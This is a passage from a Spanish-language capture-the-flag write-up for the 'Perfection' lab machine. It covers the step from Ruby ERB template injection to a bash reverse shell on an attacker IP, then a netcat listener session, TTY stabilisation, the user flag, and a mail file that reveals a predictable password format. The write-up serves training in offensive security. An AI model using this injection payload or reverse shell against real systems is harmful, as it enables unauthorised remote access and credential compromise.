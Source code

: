 Se ve que podemos inyectar etiquetas de templates Ruby para ejecutar código, por lo que ahora simplemente podemos spawnear un proceso con `Kernel#spawn` que nos envie una consola interactiva

`<%= Kernel.spawn "bash -c 'bash -i >& /dev/tcp/10.10.14.141/443 0>&1'" %>`

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.253 49624
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ script /dev/null -c bash # Inicia un nuevo proceso que aloje una tty
script /dev/null -c bash
Script started, output log file is '/dev/null'.
susan@perfection:~/ruby_app$ ^Z # CTRL + Z
[2]  + 19230 suspended  nc -lvnp 443

❯ stty raw -echo; fg # Pasar los controles de la terminal al proceso
[2]  - 19230 continued  nc -lvnp 443
                                    reset xterm # Reiniciar el tipo de terminal
susan@perfection:~/ruby_app$ export TERM=xterm-256color # Establecer la variable de entorno que identifica el tipo de terminal para tenerla colorida.
```

En el directorio personal de este usuario podemos encontrar la primera flag, por lo que ya podemos tomarla:

```bash
susan@perfection:~/ruby_app$ cd
susan@perfection:~$ ls
Migration  ruby_app  user.txt
susan@perfection:~$ cat user.txt
b3a40cb71e3628b0d18461881c******
```

## Escalada de privilegios

Tenemos un correo:

```bash
susan@perfection:~$ ls -la /var/mail
total 12
drwxrwsr-x  2 root mail  4096 May 14  2023 .
drwxr-xr-x 13 root root  4096 Oct 27  2023 ..
-rw-r-----  1 root susan  625 May 14  2023 susan
susan@perfection:~$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```
